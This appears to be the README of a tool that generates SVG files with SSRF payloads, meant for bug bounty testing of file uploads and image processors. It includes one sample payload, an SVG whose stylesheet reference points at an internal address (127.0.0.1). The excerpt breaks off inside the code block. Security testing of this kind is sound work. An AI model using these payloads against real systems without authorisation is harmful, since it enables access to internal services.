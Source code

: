 #  SVG SSRF Payload Generator

This repo generates SVG files with embedded XML stylesheet references for **SSRF testing**. It’s useful in bug bounty and security research when testing file upload features or backend image processing engines.

---

##  How It Works

Each SVG file contains an SSRF payload like this:

```xml
<?xml version="1.0" standalone="yes"?>
<?xml-stylesheet type="text/css" href="http://127.0.0.1:80"?>
<svg xmlns="http://www.w3.org/2000/svg" width="200" height="200">
  <rect width="200" height="200" fill="red"/>
</svg>
